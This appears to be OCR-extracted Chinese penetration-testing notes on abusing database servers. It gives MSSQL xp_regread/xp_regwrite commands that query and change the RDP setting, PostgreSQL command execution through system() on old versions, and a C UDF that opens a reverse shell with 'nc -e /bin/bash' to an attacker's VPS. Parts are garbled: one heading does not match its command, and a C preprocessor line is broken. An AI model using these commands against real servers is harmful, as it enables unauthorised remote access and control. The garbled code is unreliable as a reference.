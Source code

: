 #### 1. 查看是否开启了 `RDP`

```mssql
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections'
```

#### 

#### 2.开启 `RDP` **端口**

```mssql
EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber'
```

#### 3.关闭 `RDP`

```mssql
EXEC master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',1;
```



### postgresql 

1. #### 低版本可直接命令执行 < 8.2

   ```mysql
   select system('id');
   ```

2. #### 高版本命令执行，需要自己利用UDF进行命令执行

   ```mysql
   #查看pqsql支持语言
   select * from  pg_language;
   ```

   #### 默认支持C语言扩展

   ```c
   #include"postgres.h"
   #include"fmgr.h"
   #include<stdlib.h>
   #ifdef PG_MODULE_MAGICPG_MODULE_MAGIC;
   #endif
   text *exec()
   {
   system("nc -e /bin/bash vpsIPaddress 2333");
   }
   ```

   #### 这个需要在/usr/pgsql-9.6/include/server/目录下执行应为存在postgres.h头部调用的库

#### udfhack so文件

